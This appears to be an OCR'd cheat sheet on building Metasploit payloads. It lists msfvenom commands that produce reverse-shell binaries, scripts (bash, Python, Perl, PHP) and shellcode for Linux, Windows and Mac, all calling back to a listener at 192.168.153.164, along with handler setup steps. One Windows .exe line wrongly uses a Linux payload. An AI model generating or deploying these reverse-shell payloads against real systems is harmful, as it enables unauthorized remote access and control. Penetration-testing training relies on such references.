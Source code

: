 - Creating Metasploit Payloads

-Often one of the most useful (and to the beginner underrated) abilities of Metasploit is the msfpayload module. 
Multiple payloads can be created with this module and it helps something that can give you a shell in almost any 
situation. For each of these payloads, you can go into msfconsole and select exploit/multi/handler. Run ‘set 
payload’ for the relevant payload used and configure all necessary options (LHOST, LPORT, etc). Execute and wait for 
the payload to be run. For the examples below it’s pretty self explanatory but LHOST should be filled in with your 
IP address (LAN IP if attacking within the network, WAN IP if attacking across the internet), and LPORT should be 
the port you wish to be connected back on.

- List payloads

msfvenom -l

- Binaries

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.153.164 LPORT=4444 -f elf > shell.elf

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.153.164 LPORT=4444 -f exe > shell.exe

- Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.153.164 LPORT=7777 -f macho > shell.macho

- PHP

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.153.164 LPORT=7777 -f raw  > shell.php


Scripting Payloads
- Python
msfvenom -p cmd/unix/reverse_python LHOST=192.168.153.164 LPORT=4444 -f raw > shell.py


- Bash
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.153.164 LPORT=4444 -f raw > shell.sh


- Perl
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.153.164 LPORT=4444 -f raw > shell.pl

-Shellcode

-For all shellcode options see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output 
code that is able to be cut and pasted in this language for your exploits.

- Linux Based Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.153.164 LPORT=7777 -f python

- Windows Based Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.153.164 LPORT=7777 -f python

- Mac Based Shellcode
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.153.164 LPORT=4444 -f python
